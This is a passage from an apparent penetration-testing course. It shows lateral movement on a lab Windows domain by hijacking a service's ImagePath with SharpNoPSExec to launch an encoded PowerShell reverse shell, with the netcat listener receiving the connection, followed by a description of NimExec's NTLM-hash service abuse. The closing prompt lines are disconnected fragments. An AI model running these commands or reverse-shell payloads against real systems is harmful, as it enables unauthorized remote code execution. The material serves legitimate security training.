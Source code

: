 `SharpNoPSExec` uses the credentials of the console we are executing the command from, so we need to make sure to launch it from a console that has the correct credentials. Alternatively, we can use the arguments `--username`, `--password` and `--domain`. Additionally, we have to provide the target IP address or the domain name `--target=<IP/Domain>`, and the command we want to execute. For the command, we can use the payload shown in the help menu to set our reverse shell `--payload="c:\windows\system32\cmd.exe /c <reverseShell>`. We can generate the reverse shell payload using [https://www.revshells.com](https://www.revshells.com/) or our favorite C2:

```powershell
PS C:\Tools> .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

[>] Open SC Manager from 172.20.0.52.

[>] Getting services information from 172.20.0.52.

[>] Looking for a random service to execute our payload.
    |-> Querying service NetTcpPortSharing
    |-> Querying service UevAgentService
    |-> Service UevAgentService authenticated as LocalSystem.

[>] Setting up payload.
    |-> payload = c:\windows\system32\cmd.exe /c ...SNIP...AbwBzAGUAKAApAA==
    |-> ImagePath previous value = C:\Windows\system32\AgentService.exe.
    |-> Modifying ImagePath value with payload.

[>] Starting service User Experience Virtualization Service with new ImagePath.

[>] Waiting 5 seconds to finish.

[>] Restoring service configuration.
    |-> User Experience Virtualization Service Log On => LocalSystem.
    |-> User Experience Virtualization Service status => 4.
    |-> User Experience Virtualization Service ImagePath => C:\Windows\system32\AgentService.exe

```

Looking at the attack box, we can see the reverse shell connection successfully being established:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 49866

PS C:\Windows\system32>

```

### NimExec

[NimExec](https://github.com/frkngksl/NimExec) is a fileless remote command execution tool that operates by exploiting the Service Control Manager Remote Protocol (MS-SCMR). Instead of using traditional `WinAPI` calls, `NimExec` manipulates the binary path of a specified or randomly selected service with LocalSystem privileges to execute a given command on the target machine and later restores the original configuration. This is achieved through custom-crafted RPC packets sent over `SMB` and the `svcctl` named pipe. Authentication is handled using an `NTLM` hash, which `NimExec` utilizes to complete the process via the `NTLM` Authentication method over its custom packets. By manually crafting the necessary network packets and avoiding OS-specific functions, this tool benefits from Nim's cross-compilation capabilities, making it versatile across different operating systems.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>